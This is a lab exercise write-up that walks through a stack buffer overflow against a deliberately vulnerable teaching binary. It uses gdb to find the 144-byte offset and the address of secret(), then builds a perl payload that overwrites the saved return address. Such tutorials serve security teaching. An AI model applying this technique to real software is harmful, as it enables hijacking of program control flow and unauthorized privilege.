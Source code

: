 # Simple buffer overflow - control flow reroute

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change the function flow, which enables us to gain "admin" privileges.
We do this by overwriting SIP (stored instruction pointer) on the stack
with the address of the `secret()` function.


### Source 

* Source directory: `~/challenges/challenge10/`
* Source files: [challenge10](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge10)

You can compile it by calling `make` in the folder `~/challenges/challenge10`

The source is identical with challenge09.


### Vulnerability

A reminder, the vulnerability lies here:

```
void handleData(char *username, char *password) {
    char name[128];
    ...
    strcpy(name, username); // strcpy() is unsafe
    ...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.

This time, the following function is also relevant:
```
void secret() {
    printf("Secret functionality\n");
}
```

## Abnormal behaviour (no debugger)

As we have seen from challenge09, we can create a segmentation fault by passing in 
an argument with size of 150 bytes:

```
~/challenges/challenge10$ ./challenge10 `perl -e 'print "A" x 150'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```


## Abnormal behaviour (with debugger)

Lets do this again, but in a debugger:

```
~/challenges/challenge10$ gdb -q challenge10
Reading symbols from challenge10...
(gdb) r `perl -e 'print "A" x 150'` password
Starting program: /root/challenges/challenge10/challenge10 `perl -e 'print "A" x 150'` password
isAdmin: 0x41414141
You are admin!

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

It seems to have crashed at position `0x41414141`. That is our instruction pointer:
```
(gdb) i r eip
eip            0x41414141          0x41414141
(gdb) backtrace
#0  0x41414141 in ?? ()
#1  0xff004141 in ?? ()
#2  0xffffdeee in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```

As we can see, the value of `EIP` is `0x41414141`, or `AAAA` in ASCII.
It seems the CPU wants to continue the execution at an address which is based
on our input string (`AAAAAAAA....`). That is, we have overwritte the return
address (SIP, stored instruction pointer) on the stack, and the CPU happily
executed code at the location we point it to.

Maybe we can call the function `secret()`? We would require the following things for this:
* The address of the function `secret()`
* The location in the input string which matches the location of the SIP on the stack (offset)


## Find address of target function

We can easily find out the address of `secret()`:

```
(gdb) print &secret
$1 = (void (*)()) 0x80491f8 <secret>
```

It seems our target address is `0x80491f8`.


## Find out the offset

We will update or perl-based argument generator by appending `BBBB` at the
`AAAA`'s:

```
$ perl -e 'print "A" x 16 . "BBBB" . "\n"'
AAAAAAAAAAAAAAAABBBB
```

And adjust the offset until EIP is `0x42424242`, or `BBBB` in ASCII:

Trying with offset `142`:
```
(gdb) r `perl -e 'print "A" x 142 . "BBBB"'` password
Starting program: /root/challenges/challenge10/challenge10 `perl -e 'print "A" x 142 . "BBBB"'` password
isAdmin: 0x41414141
You are admin!

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

Not quite, only two 0x42 appear! Lets try it with `144`:

```
(gdb) r `perl -e 'print "A" x 144 . "BBBB"'` password
Starting program: /root/challenges/challenge10/challenge10 `perl -e 'print "A" x 144 . "BBBB"'` password
isAdmin: 0x41414141
You are admin!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Bingo! The 4-byte value `BBBB` is now completely stored in `EIP`! Therefore
the offset to SIP (the stored instruction pointer, which gets loaded into
  EIP when executing a `ret`) is `144` bytes.

This means we can redirect the execution flow of the target program to any
address we want, by writing it at the place of the `BBBB`. For example the address of `secret()` from above.


## Write the exploit

Lets re-iterate what we know:
* The offset in the first input argument to SIP is exactly `144` bytes.
* The address of `secret()` is `0x80491f8`

The next step is to replace the `BBBB` (the SIP) with the address of `secret()`.
Note that because of the little-endianness, we have to convert the address:
* `0x80491f8` = `0xf8 0x91 0x04 0x08`

Just read it from back to front, and fill to 4 bytes (4 times 1 byte, or
  4 times two-digit hex number).

Lets update our perl argument line generator again. We can specify raw
bytes in hex by prepending them with `\x`. Or in other words, `\x41` = `A`.
```
~/challenges/challenge10$ perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"' | hexdump -v -C
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000020  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000030  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000050  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000060  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000070  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000080  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000090  f8 91 04 08                                       |....|
```

Not that the last few bytes (the return address) are not ASCII-printable, therefore we piped
the output into hexdump. We can see this at the last line.

Lets put it all together and try it with the vulnerable program. First in the debugger:
```
(gdb) r `perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"'` password
Starting program: /root/challenges/challenge10/challenge10 `perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"'` password
isAdmin: 0x41414141
You are admin!
Secret functionality

Program received signal SIGSEGV, Segmentation fault.
0xffffde00 in ?? ()
```

While the program still crashed, it did print the string `Secret functionality`!

Lets try it again without GDB:
```
~/challenges/challenge10$ ./challenge10 `perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"'` password
isAdmin: 0x41414141
You are admin!
Secret functionality
Segmentation fault (core dumped)
```

It printed `Secret functionality!` before
it crashed! Does that mean that the `secret()` was executed? Lets double-check
by setting a breakpoint in `secret()` and run it again in GDB:

```
(gdb) b *secret
Breakpoint 1 at 0x80491f8: file challenge10.c, line 16.

(gdb) r `perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"'` password
Starting program: /root/challenges/challenge10/challenge10 `perl -e 'print "A" x 144 . "\xf8\x91\x04\x08"'` password
isAdmin: 0x41414141
You are admin!

Breakpoint 1, secret () at challenge10.c:16
16      void secret() {
(gdb) where
#0  secret () at challenge10.c:16
#1  0xffffde00 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```

Indeed, breakpoint 1 was hit, and we stopped execution in `secret()`!


# Things to think about

* Why does it crash at the end?
* Can you calculate the required offset just by using GDB? (instead of brute-forcing it manually)
